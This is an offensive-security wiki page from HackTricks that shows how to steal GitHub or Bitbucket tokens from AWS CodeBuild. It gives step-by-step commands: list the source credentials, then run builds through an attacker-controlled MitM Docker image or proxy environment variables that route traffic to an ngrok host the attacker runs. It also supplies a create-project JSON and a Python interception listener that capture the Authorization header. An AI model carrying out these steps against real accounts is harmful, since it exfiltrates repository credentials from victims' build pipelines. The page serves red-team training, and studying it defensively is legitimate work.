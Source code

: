 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recover Github/Bitbucket Configured Tokens

First, check if there are any source credentials configured tha you could leak:

```bash
aws codebuild list-source-credentials
```

### Via Docker Image

If you find that authentication to for example Github is set in the account, you can **exfiltrate** that **access** (**GH token or OAuth token**) by making Codebuild to **use an specific docker image** to run the build of the project.

For this purpose you could **create a new Codebuild project** or change the **environment** of an existing one to set the **Docker image**.

The Docker image you could use is [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). This is a very basic Docker image that will set the **env variables `https_proxy`**, **`http_proxy`** and **`SSL_CERT_FILE`**. This will allow you to intercept most of the traffic of the host indicated in **`https_proxy`** and **`http_proxy`** and trusting the SSL CERT indicated in **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
   * Follow the instructions of the repo to set your proxy IP address and set your SSL cert and **build the docker image**.
     * **DO NOT SET `http_proxy`** to not intercept requests to the metadata endpoint.
   * You could use **`ngrok`** like `ngrok tcp 4444` lo set the proxy to your host
   * Once you have the Docker image built, **upload it to a public repo** (Dockerhub, ECR...)
2. **Set the environment**
   * Create a **new Codebuild project** or **modify** the environment of an existing one.
   * Set the project to use the **previously generated Docker image**

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

* As indicated in the **Github repo** you could use something like:

```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```

{% hint style="success" %}
The **mitmproxy version used was 9.0.1**, it was reported that with version 10 this might not work.
{% endhint %}

4. **Run the build & capture the credentials**

*   You can see the token in the **Authorization** header:

    <figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

This could also be done from the aws cli with something like

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
    "name": "my-demo-project",
    "source": {
        "type": "GITHUB",
        "location": "https://github.com/uname/repo",
        "buildspec": "buildspec.yml"
    },
    "artifacts": {
        "type": "NO_ARTIFACTS"
    },
    "environment": {
        "type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
        "image": "docker.io/carlospolop/docker-mitm:v12",
        "computeType": "BUILD_GENERAL1_SMALL",
        "imagePullCredentialsType": "CODEBUILD"
    }
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**This vulnerability was corrected by AWS at some point the week of the 20th of Feb of 2023 (I think on Friday). So an attacker can't abuse it anymore :)**
{% endhint %}

An attacker with **elevated permissions in over a CodeBuild could leak the Github/Bitbucket token** configured or if permissions was configured via OAuth, the **temporary OAuth token used to access the code**.

* An attacker could add the environment variables **http\_proxy** and **https\_proxy** to the CodeBuild project pointing to his machine (for example `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Then, change the URL of the github repo to use HTTP instead of HTTPS, for example: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Then, run the basic example from [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) in the port pointed by the proxy variables (http\_proxy and https\_proxy)

```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
    host="127.0.0.1",
    port=4444,
    protocols=[protocol.HTTP], 
    middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
    certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```

* Finally, click on **Build the project**, the **credentials** will be **sent in clear text** (base64) to the mitm port:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Now an attacker will be able to use the token from his machine, list all the privileges it has and (ab)use easier than using the CodeBuild service directly.
{% endhint %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
